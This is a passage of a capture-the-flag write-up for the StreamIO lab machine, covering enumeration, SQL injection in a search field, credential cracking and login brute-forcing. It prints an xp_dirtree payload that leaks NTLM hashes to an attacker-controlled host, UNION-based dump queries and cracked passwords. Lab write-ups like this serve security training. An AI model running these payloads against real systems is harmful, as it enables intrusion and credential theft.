










# StreamIO
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.158 -T4 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 19:18 BST
Nmap scan report for 10.10.11.158 (10.10.11.158)
Host is up (0.10s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49701/tcp open  unknown
55287/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 32.55 seconds

```
```
└─$ nmap -Pn -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389 -sC -sV 10.10.11.158 -T4 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 19:19 BST
Nmap scan report for 10.10.11.158 (10.10.11.158)
Host is up (0.16s latency).

PORT     STATE    SERVICE          VERSION
53/tcp   open     domain           Simple DNS Plus
80/tcp   open     http             Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open     kerberos-sec     Microsoft Windows Kerberos (server time: 2023-09-14 01:19:00Z)
135/tcp  open     msrpc            Microsoft Windows RPC
139/tcp  open     netbios-ssn      Microsoft Windows netbios-ssn
389/tcp  open     ldap             Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open     ssl/http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
|_ssl-date: 2023-09-14T01:19:51+00:00; +6h59m23s from scanner time.
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http       Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp filtered globalcatLDAP
3269/tcp filtered globalcatLDAPssl
5985/tcp open     http             Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open     mc-nmf           .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m22s, deviation: 0s, median: 6h59m21s
| smb2-time: 
|   date: 2023-09-14T01:19:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.52 seconds
```
- `smb`
```
└─$ smbclient -N -L //10.10.11.158
session setup failed: NT_STATUS_ACCESS_DENIED
```
- `dns`
```
└─$ dig @10.10.11.158 streamIO.htb                                                                                          

; <<>> DiG 9.18.16-1-Debian <<>> @10.10.11.158 streamIO.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13035
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;streamIO.htb.                  IN      A

;; ANSWER SECTION:
streamIO.htb.           600     IN      A       10.10.11.158

;; Query time: 100 msec
;; SERVER: 10.10.11.158#53(10.10.11.158) (UDP)
;; WHEN: Wed Sep 13 19:26:32 BST 2023
;; MSG SIZE  rcvd: 57

```
```
└─$ dig axfr @10.10.11.158 streamIO.htb

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.11.158 streamIO.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.
```
- `vhosts`
```
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u https://watch.streamIO.htb -H 'Host: FUZZ.streamIO.htb' --hh 315
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://watch.streamIO.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000003520:   200        78 L     245 W      2829 Ch     "watch"                                                                                                                                                                    
000037212:   400        6 L      26 W       334 Ch      "*"                                                                                                                                                                        

Total time: 1237.048
Processed Requests: 100000
Filtered Requests: 99998
Requests/sec.: 80.83756

```
```
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://watch.streamIO.htb -H 'Host: FUZZ.streamIO.htb' --hh 703
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://watch.streamIO.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000037212:   400        6 L      26 W       334 Ch      "*" 

Total time: 1021.031
Processed Requests: 100000
Filtered Requests: 99999
Requests/sec.: 66.52712
```
- Web Server
  - Port `80`



- Web Server
  - Port `443`




- `gobuster`
```
└─$ gobuster dir -u https://streamio.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://streamio.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/09/16 14:46:18 Starting gobuster in directory enumeration mode
===============================================================
/about.php            (Status: 200) [Size: 7825]
/index.php            (Status: 200) [Size: 13497]
/images               (Status: 301) [Size: 151] [--> https://streamio.htb/images/]
/contact.php          (Status: 200) [Size: 6434]
/login.php            (Status: 200) [Size: 4145]
/register.php         (Status: 200) [Size: 4500]
/Images               (Status: 301) [Size: 151] [--> https://streamio.htb/Images/]
/admin                (Status: 301) [Size: 150] [--> https://streamio.htb/admin/]
/css                  (Status: 301) [Size: 148] [--> https://streamio.htb/css/]
/Contact.php          (Status: 200) [Size: 6434]
/About.php            (Status: 200) [Size: 7825]
/Index.php            (Status: 200) [Size: 13497]
/Login.php            (Status: 200) [Size: 4145]
/js                   (Status: 301) [Size: 147] [--> https://streamio.htb/js/]
/logout.php           (Status: 302) [Size: 0] [--> https://streamio.htb/]
/Register.php         (Status: 200) [Size: 4500]
/fonts                (Status: 301) [Size: 150] [--> https://streamio.htb/fonts/]
/IMAGES               (Status: 301) [Size: 151] [--> https://streamio.htb/IMAGES/]
/INDEX.php            (Status: 200) [Size: 13497]
/Fonts                (Status: 301) [Size: 150] [--> https://streamio.htb/Fonts/]
/Admin                (Status: 301) [Size: 150] [--> https://streamio.htb/Admin/]
/*checkout*           (Status: 400) [Size: 3420]
/CSS                  (Status: 301) [Size: 148] [--> https://streamio.htb/CSS/]
/JS                   (Status: 301) [Size: 147] [--> https://streamio.htb/JS/]
```
```
└─$ gobuster dir -u https://watch.streamio.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://watch.streamio.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/09/16 14:46:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2829]
/search.php           (Status: 200) [Size: 253887]
/static               (Status: 301) [Size: 157] [--> https://watch.streamio.htb/static/]
/Search.php           (Status: 200) [Size: 253887]
/Index.php            (Status: 200) [Size: 2829]
/INDEX.php            (Status: 200) [Size: 2829]
/*checkout*           (Status: 400) [Size: 3420]
/*docroot*            (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
/blocked.php          (Status: 200) [Size: 677]

```
## Foothold
- I registered on the `streamio.htb` but couldn't login




- Clicking on `watch` button on `watch.streamio.htb` results in error


- The website also has `blocked.php` endpoint
  - Probably `WAF`



- When we search for `dog`, it shows every movie containing 'dog'


- The same goes for `test`


- It looks like the query is `SELECT * FROM MOVIES WHERE NAME LIKE '%dog%';`
  - Thus if the statement is correct, we could try injecting `man';-- -`
  - If the query is injectable, we should get all movies that end with `man`
    - There were no movies that end with `dog`



- And it works
  - We could start with stealing the hash
  - Start `responder`
    - `sudo responder -I tun0`
  - The payload
    - `man'; use master; exec xp_dirtree '\\10.10.16.4\anything';-- -`


- But `hashcat` has no results
  - `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt`
  - So let's try dumping the database
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
  - We can `UNION`-based injections
    - But we have to find the number of collumns
  - The final payload
    - `test' union select 1,2,3,4,5,6;-- -`


- We can use collumns `2` and `3` to dump the data
  - Let's check the databases
  - `test' union select 1,name,3,4,5,6 from master.dbo.sysdatabases;-- -`


- Now we dump the tables
  - Find the current database
    - `test' union select 1,(SELECT DB_NAME()),3,4,5,6;-- -`
  - Enumerate table names
    - `test' union select 1,name,id,4,5,6 FROM sysobjects WHERE xtype='U';-- -`




- Dump `users` table
  - Find the columns
    - `test' union select 1,name,id,4,5,6 FROM syscolumns WHERE id = 901578250;-- -`
  - Dump the table
    - `test' union select 1,concat(username,':', password), 3,4,5,6 FROM users;-- -`


- Let's try cracking them
```
└─$ hashcat -m 0 user-hash.list /usr/share/wordlists/rockyou.txt --user       
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 30 digests; 30 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
...

3577c47eb1e12c8ba021611e1280753c:highschoolmusical        
ee0b8a0937abd60c2882eacb2f8dc49f:physics69i               
665a50ac9eaa781e4f7f04199db97a11:paddpadd                 
b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..         
ef8f3d30a856cf166fb8215aca93e9ff:%$clara                  
2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$           
54c88b2dbd7b1a84012fabc1a4c73415:$hadoW                   
6dcd87740abb64edfa36d170f0d5450d:$3xybitch                
08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##         
b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123              
b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!               
f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$               
Approaching final keyspace - workload adjusted.           
...
```
```
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```

- But none of them works for `smb`
```
└─$ crackmapexec smb 10.10.11.158 -u user.list -p pass.list --no-bruteforce --continue-on-success
SMB         10.10.11.158    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:paddpadd STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Barry:$hadoW STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Bruno:$monique$1991$ STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Clara:%$clara STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Juliette:$3xybitch STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Lauren:##123a8j8w5123## STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Lenord:physics69i STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Michelle:!?Love?!123 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Sabrina:!!sabrina$ STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Thane:highschoolmusical STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\Victoria:!5psycho8! STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:66boysandgirls.. STATUS_LOGON_FAILURE 
```

- We could try the creds on `https://streamio.htb/login.php`



- Let's use `hydra`

```
└─$ hydra -C user-pass.list streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-19 17:08:23
[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries, ~1 try per task
[DATA] attacking http-post-forms://streamio.htb:443/login.php:username=^USER^&password=^PASS^:F=Login failed
[4
43][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-19 17:08:27
```

- We successfully login
  - And now we have access to `admin`



- We have nothing interesting,
  - The url is `https://streamio.htb/admin/?staff=`
  - When we click the panels, the parameter changes
    - `Staff Management -> https://streamio.htb/admin/?staff=`
    - `Movie Management -> https://streamio.htb/admin/?movie=`
    - `User Management -> https://streamio.htb/admin/?user=` 
  - We can try fuzzing the parameter

```
└─$ wfuzz -H "Cookie: PHPSESSID=1oqkt97ah49htfg0tli8rsthor" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' --hh 1678
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://streamio.htb/admin/?FUZZ=
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001575:   200        49 L       137 W      1712 Ch     "debug"
000003530:   200        10790 L    25878 W    320235 Ch   "movie"
000005450:   200        398 L      916 W      12484 Ch    "staff"
000006133:   200        62 L       160 W      2073 Ch     "user"

Total time: 80.34713
Processed Requests: 6453
Filtered Requests: 6449
Requests/sec.: 80.31400

```


- I was stuck here for a while
  - It looks like when I supply `index.php`, the page return error


- So it looks like I missed important endpoint
  - From now on, I will use `feroxbuster` in the background, which performs recursive directory search
```
